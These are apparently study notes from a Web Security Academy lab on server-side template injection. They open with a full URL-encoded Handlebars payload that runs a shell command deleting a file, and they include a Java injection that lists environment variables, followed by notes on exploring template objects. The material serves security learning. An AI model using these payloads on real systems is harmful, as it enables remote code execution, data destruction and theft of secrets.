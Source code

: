  `https://YOUR-LAB-ID.web-security-academy.net/?message=wrtz%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0d%0a%7b%7b%2f%77%69%74%68%7d%7d`
  - The lab should be solved when you load the URL

#### Explore
The next step is to:
- explore the environment
- try to discover all the objects to which you have access.

Many template engines expose a "self" or "environment" object of some kind:
- which acts like a namespace containing all objects, methods, and attributes that are supported by the template engine
=>
If such an object exists:
- you can potentially use it to:
	- generate a list of objects that are in scope

For example, in Java-based templating languages, you can sometimes list all variables in the environment using the following injection:
`${T(java.lang.System).getenv()}`

##### Developer-supplied objects
It is important to note that websites will contain both.
- built-in objects provided by the template 
- custom, site-specific objects that have been supplied by the web developer.
=>
You should pay particular attention to these non-standard objects:
- bc they are especially likely to contain sensitive information or exploitable methods
- As these objects can vary between different templates within the same website:
	- be aware that you might need to study an object's behavior in the context of each distinct template before you find a way to exploit it.

While server-side template injection can potentially lead to remote code execution and full takeover of the server:
in practice -->   this is not always possible to achieve.

However, just because you have ruled out remote code execution:
- that doesn't necessarily mean there is no potential for a different kind of exploit. 
- You can still leverage server-side template injection vulnerabilities for other high-severity exploits, such as path traversal to gain access to sensitive data

